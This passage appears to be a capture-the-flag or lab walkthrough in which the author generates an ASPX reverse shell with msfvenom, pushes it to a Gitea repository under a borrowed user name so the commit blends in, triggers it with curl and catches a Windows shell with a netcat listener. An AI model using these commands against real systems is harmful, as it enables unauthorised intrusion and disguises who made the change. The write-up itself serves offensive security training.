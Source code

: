 ### Pushing reverse shell to the web server

As you may recall from the reconnaissance phase, we discovered that the web site is running on `ASP.NET`. That means that we can create a malicious `.aspx` file and get code execution that way. We can generate such reverse shell file with `msfvenom`.

```
➜  website git:(main) ✗ msfvenom --platform windows --arch x64 -p windows/x64/shell_reverse_tcp LHOST=10.8.0.109 LPORT=443 -f aspx -o shell.aspx
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3404 bytes
Saved as: shell.aspx
```

With reverse shell inside the git repository, we can push it to `Gitea` and it will get deployed to the web server. First we have to "git add" the `shell.aspx` file, then commit and push. Additionally, we can specify the user and email so the commit would blend in a bit more in the git log.

```
➜  website git:(main) ✗ git config --global user.name ellen.freeman
➜  website git:(main) ✗ git config --global user.email ellen.freeman@lock.vl
➜  website git:(main) ✗ git add shell.aspx
➜  website git:(main) ✗ git commit -m "Update"
[main 13d3506] Update
 1 file changed, 45 insertions(+)
 create mode 100644 shell.aspx
➜  website git:(main) git push
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 2 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 1.41 KiB | 1.41 MiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
remote: . Processing 1 references
remote: Processed 1 references in total
To http://10.10.71.234:3000/ellen.freeman/website.git
   73cdcc1..13d3506  main -> main
```

## Getting foothold

As mentioned in the `readme.md` file, by pushing the reverse shell file to the repository, the change should be deployed right away to the web server. Let's try to access the file with `curl` and see if we get a reverse shell back.

```
curl http://10.10.71.234/shell.aspx
```

```
➜  lock rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.0.109] from (UNKNOWN) [10.10.71.234] 50820
Microsoft Windows [Version 10.0.20348.2159]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
lock\ellen.freeman

c:\windows\system32\inetsrv>
```
